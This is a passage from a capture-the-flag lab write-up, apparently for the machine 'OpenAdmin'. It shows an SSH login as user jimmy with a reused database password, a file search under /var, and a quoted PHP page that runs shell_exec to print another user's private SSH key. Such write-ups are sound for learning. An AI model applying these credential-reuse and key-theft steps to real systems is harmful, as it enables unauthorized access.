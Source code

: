 And ofcoure jimmy reused this database password for his user account, which means we could now log in as jimmy

```
mindslave@kalibox:~$ ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb  7 05:41:26 UTC 2020

  System load:  0.01              Processes:             146
  Usage of /:   49.6% of 7.81GB   Users logged in:       2
  Memory usage: 22%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Feb  7 05:39:24 2020 from 10.10.14.147
jimmy@openadmin:~$
```

Now as Jimmy we want to find out which files belong to us and since all the interesting stuff seems to be in /var we do
```
find /var -user jimmy
```

which reveals:
```
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
```

main.php looked extremly interesting

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
